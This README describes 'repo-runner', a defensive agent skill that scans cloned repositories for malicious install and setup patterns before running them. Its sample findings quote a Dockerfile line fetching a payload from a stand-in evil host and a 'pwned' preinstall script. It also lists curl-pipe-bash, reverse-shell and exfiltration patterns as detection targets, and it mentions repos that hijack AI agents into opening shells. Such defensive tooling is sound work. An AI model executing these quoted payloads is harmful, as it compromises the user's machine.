

**English** | [中文版 (Chinese)](README.zh-CN.md)

# repo-runner

### Run any GitHub repo. Safely. — an Agent Skill (SKILL.md)

[](https://github.com/Jia-ben00/repo-runner/actions/workflows/smoke.yml)
[](https://github.com/Jia-ben00/repo-runner/stargazers)
[](https://github.com/Jia-ben00/repo-runner/blob/main/LICENSE)

Take any repository — a GitHub URL or a local folder — from *just cloned* to *actually running*: stack detection, supply-chain security gate, environment prep, lockfile-first install, service startup, health check, and a reproducible run report.

**Zero external dependencies. No API keys. No daemons. Pure Python stdlib scripts + one SKILL.md.**



## Why this skill exists

Cloning is easy. **Running is where the pain starts**: unknown stacks, broken lockfiles, missing `.env`, native build tools, port conflicts, flaky registries — and since 2026, actively malicious repos that weaponize `postinstall` and setup scripts to hijack AI agents ([CVE-2026-47729: a clean GitHub repo can talk Claude Code into opening a reverse shell](https://datawater.com/claude-code-reverse-shell-mozilla/)). AI coding agents clone repos constantly, yet none of the major skill libraries (anthropics/skills, superpowers, ECC, awesome-claude-skills) ship a **safe** "get it running" workflow. This skill fills that gap:

> Most skills help agents *write* code. **repo-runner helps agents *run* other people's code — without getting owned.**

## Features

- **5-stage deterministic workflow**: Detect → Security Gate → Prepare → Install → Run & Verify
- **Security gate with evidence**: scans for remote code execution, reverse shells, secret exfiltration, privilege escalation, destructive commands, supply-chain and obfuscation patterns — reports file/line/evidence, verdicts `low / medium / high / critical` (exit codes `0 / 1 / 2`)
- **Lockfile-first installs**: `npm ci`, `pnpm install --frozen-lockfile`, `yarn install --immutable`, `uv sync`, poetry, pip+venv (PEP 668 aware)
- **China-friendly out of the box**: npm/pip/Go/Ruby/Maven mirrors + `ghproxy` clone fallback
- **Reproducible output**: every run ends with a one-line command to re-run everything, plus known issues and workarounds
- **SBOM out (v0.2)**: emit a CycloneDX 1.5 SBOM from lockfiles/manifests — npm, pnpm, yarn, pip, pyproject, uv, poetry, Go, Rust, Ruby, PHP
- **Sandboxed runs (v0.2)**: hardened Docker isolation for suspicious repos — non-root, dropped capabilities, read-only rootfs, memory/CPU limits, repo mounted read-only
- **Portable**: one folder, standard `SKILL.md` format, works with Claude Code, Codex, Cursor, OpenClaw and any agent that loads skills folders

## Install

```bash
# One command (Claude Code / Codex / Cursor / any agent with npx skills)
npx skills add Jia-ben00/repo-runner

# Manual: copy the folder to your agent's skills directory
cp -r repo-runner ~/.claude/skills/
```

Requires: `git`, a runtime for the target stack, and Python 3.8+ for the helper scripts (the workflow still runs via manual checks if Python is unavailable).

## Usage

Just say:

```
Run https://github.com/owner/repo
Clone and run this project
Get this repo running so I can debug it
```

The skill then:

1. **Shallow-clones** the repo (`--depth 1`, ghproxy fallback for CN networks)
2. **Detects** the stack, package manager, start scripts, version pins, docker config (`scripts/detect_stack.py`)
3. **Gates** the repo for dangerous setup patterns — **nothing executes before this passes** (`scripts/security_gate.py`)
4. **Prepares** the environment: version pins (`.nvmrc` / `.python-version`), `.env` from `.env.example`, `docker compose` for database dependencies
5. **Installs** with lockfiles; falls back to mirrors on network failure; never global-installs
6. **Starts** the service, **health-checks** it (TCP + common health paths, `scripts/health_check.py`), and reports ports/URLs + a reproduce command

## Example: what the security gate catches

Given a repo with a committed `.env`, a `preinstall` script, a Dockerfile that `ADD`s a remote payload, and a git-based dependency:

```json
{
  "risk_level": "high",
  "findings": [
    {"severity": "high", "file": "Dockerfile", "line": 2,
     "pattern": "docker-add-remote",
     "evidence": "ADD https://evil.example.com/payload.sh /tmp/p.sh"},
    {"severity": "high", "file": ".env",
     "pattern": "committed-env",
     "detail": "secrets file committed to the repo — should be gitignored"},
    {"severity": "medium", "file": "package.json",
     "pattern": "npm-lifecycle-script",
     "evidence": "preinstall: echo pwned"},
    {"severity": "medium", "file": "package.json",
     "pattern": "git-or-local-dependency",
     "evidence": "left-pad: github:foo/left-pad"}
  ]
}
```

Exit code `2` → the agent stops and asks before running anything. A clean repo exits `0` (`low`) and proceeds to install.

Every run ends with a reproducible report:

```
Stack: node + npm (express, lockfile: package-lock.json)
Security: low (0 findings)
Install: npm ci (187 packages)
Start: node index.js
URL: http://127.0.0.1:3000 (health-checked: 200)
SBOM: 187 components → sbom.json (CycloneDX 1.5)
Repro: git clone --depth 1 <url> && cd <dir> && npm ci && node index.js
```

## The 5 stages

| Stage | What happens | Key artifact |
|---|---|---|
| 1. Detect | Clone + identify stack, package manager, scripts, version pins, docker | `detect_stack.py` → JSON |
| 2. Security Gate | Scan install/start surfaces for malicious patterns; verdict before any execution | `security_gate.py` → risk level + evidence |
| 3. Prepare | Toolchain versions, `.env`, compose dependencies, native build tools | env checklist |
| 4. Install | Lockfile-first, mirror fallback, venv/isolated envs | installed deps |
| 5. Run & Verify | Start in background, health-check, log analysis, reproduce report | `health_check.py` + report |

## Scripts

| Script | Purpose | Output |
|---|---|---|
| `scripts/detect_stack.py` | Stack / package manager / scripts / version pins / docker detection | JSON |
| `scripts/security_gate.py` | Supply-chain & malicious-pattern scan of install/start surfaces | JSON + exit `0/1/2`; `--sarif` for SARIF 2.1.0 |
| `scripts/health_check.py` | TCP + HTTP health probing of a started service | JSON + exit code |
| `scripts/sbom.py` | CycloneDX 1.5 SBOM from lockfiles/manifests (npm/pnpm/yarn/pip/uv/poetry/Go/Rust/Ruby/PHP) | JSON |
| `scripts/docker_sandbox.py` | Hardened `docker run` command (or `--exec`) for isolated runs — non-root, cap-drop, read-only rootfs, limits | JSON + exit code |

## Security model

- **Nothing executes before the gate passes.** `curl | bash`, `postinstall` scripts, Makefile targets, Dockerfile `RUN`, GitHub Actions, husky hooks and devcontainer `postCreateCommand` are all scanned.
- **Exit codes are a contract**: `0` proceed · `1` review with the user first · `2` stop and ask — high/critical findings are never auto-run.
- **Obfuscation is treated as guilt**: base64/hex payloads, string-spliced commands, download-then-execute — anything hidden is handled as worst-case.
- Full manual pattern catalog: [`references/security-patterns.md`](references/security-patterns.md).

## Code scanning integration

`security_gate.py --sarif <dir>` emits [SARIF 2.1.0](https://docs.oasis-open.org/sarif/sarif/v2.1.0/sarif-v2.1.0.html), the standard format for GitHub code scanning. Wire it into your own CI to see findings directly on pull requests:

```yaml
- name: Scan repo with repo-runner security_gate
  run: python scripts/security_gate.py --sarif . > security_gate.sarif || true
- name: Upload to code scanning
  uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: security_gate.sarif
    category: repo-runner
```

Findings appear under **Security → Code scanning** and as inline PR annotations. Severity maps `critical`/`high` → error, `medium` → warning, `low`/`info` → note. This repo's own CI uploads a sample on every push to `main`.

## Compatibility

| Agent | Install |
|---|---|
| Claude Code | `npx skills add Jia-ben00/repo-runner` or copy to `~/.claude/skills/` |
| Codex / Cursor / OpenClaw | copy folder to the agent's skills directory |
| Any SKILL.md loader | copy folder, reload |

## Articles

- [Your AI Agent Should Never Run a Random GitHub Repo Blindly](docs/blog-intro.md) — the supply-chain problem, the 5-stage pipeline, and how v0.2's SBOM + Docker sandbox came together (including three CI-discovered bugs in the isolation layer).

## License

[MIT](LICENSE)
